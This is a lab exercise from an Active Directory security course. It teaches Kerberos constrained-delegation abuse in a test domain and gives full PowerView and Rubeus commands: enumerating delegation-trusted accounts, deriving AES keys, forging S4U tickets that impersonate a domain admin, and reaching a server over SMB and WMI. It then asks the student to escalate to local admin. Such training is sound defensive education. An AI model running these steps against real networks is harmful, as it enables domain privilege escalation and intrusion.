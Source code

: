 # Exercise 4 - Kerberos (Delegation)

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

In this exercise, we'll abuse the constrained delegation permission of the user "taskservice" to get access to adsec-01. 

Open powershell with admin rights (right-click "Run as Administrator") and load rubeus/powerview.

```
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Find users that are enabled for constrained delegation.

```
Get-DomainUser -TrustedToAuth
```

Show the allowed delegation targets.

```
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```

Luckily, we know the password of user taskservice. First, we generate the AES keys, which we need in the next steps.

```
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:contoso.com /user:taskservice"
```

Rubeus allows us to start powershell in a new logon session. This implies that the tickets we forge only exist in this logon session and do not interfere with the already existing kerboers tickets of user john. 

```
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

Remember, execute the commands below in the powershell you just started with rubeus!

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

First, we use s4u to request a TGS impersonating the domain admin user "Bruce Willis" (bwillis) against adsec-01. We request 3 tickets for 3 different services. "CIFS" will be used for SMB access and "HOST"/"RPCSS" are needed for WMI.

```
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:cifs/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:host/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:rpcss/adsec-01.contoso.com /ptt"
```

Have a look at the kerberos tickets you just created by running klist.

```
klist
```

Let's see if that worked. Try to access the server through SMB.

```
ls \\adsec-01.contoso.com\C$
```

Now try to access the server through WMI. Note: the command below queries the WMI class win32_process, which basically means: list all running processes. This is similar to running "ps" in a terminal.

```
Get-WmiObject -Class win32_process -ComputerName adsec-01.contoso.com
```


# Questions
- In the exercise above, you acquired read access on the server adsec-01 through SMB and WMI. Now try to get code execution through these two protocols. The goal is to execute the following command, which will add the user john to the local admin group:
    - "net localgroup Administrators john /ADD"
- Demonstrate a way to achieve this with SMB as well as with WMI. `Hint:` we already used a tool for remote management that relies on SMB in the PTH exercise and Powershell contains a native command for invoking WMI methods.
- Try to impersonate the domain admin user "Chuck Norris" instead of "Bruce Willis". Does it work? Explain why.
